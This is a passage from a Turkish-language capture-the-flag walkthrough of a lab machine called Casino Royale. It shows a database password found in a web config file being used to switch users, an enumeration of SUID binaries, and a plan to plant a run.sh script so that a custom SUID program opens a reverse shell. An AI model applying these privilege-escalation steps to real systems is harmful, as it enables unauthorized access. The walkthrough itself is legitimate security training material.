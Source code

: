 ```sh
$player_table = "pokermax_players";
$score_table = "pokermax_scores";
 
/**************** OPTIONS SECTION ****************/
$search_limit = "50"; // listings per page - tournaments and players
$DatabaseError = "<p align=\"center\" class=\"red\">No details found, please try--More--(79%)q
www-data@casino:/var/www/html/includes$ 
www-data@casino:/var/www/html/includes$ 
```
Neler yaptımıza bir bakalım. `var/www/html` klasörüne gittilten sonra *includes* klasörü ilgimi çekti ve orada bir *config.php* dosyası gördüm. İçini okuduğumda bir kullanıcı adı ve şifre buldum. 
```sh
www-data@casino:/var/www/html/includes$ su valenka
su valenka
Password: 11archives11!

valenka@casino:/var/www/html/includes$ 
```
Bingo! artık valenka'yız. Bir kaç yere baktıktan sonra aklıma suid biti etkin olan dosyalara bakmak geldi ve tarama yaptım.
```sh
valenka@casino:/var/www/html/includes$ find / -perm -u=s 2> /dev/null
find / -perm -u=s 2> /dev/null
/opt/casino-royale/mi6_detect_test
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/userhelper
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/su
/bin/ntfs-3g
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
valenka@casino:/var/www/html/includes$ 
```
i6_detect_test dosyasına baktım ve kontrol ettim. çalışırken run.sh isimli bir dosyaya ihtiyaç duyuyor, bundna dolayı run.sh isimli bir bash script yazıp tekrar reverse deneyeceğim.
```sh
valenka@casino:/tmp$ /opt/casino-royale/mi6_detect_test
/opt/casino-royale/mi6_detect_test
/bin/bash: run.sh: No such file or directory
```
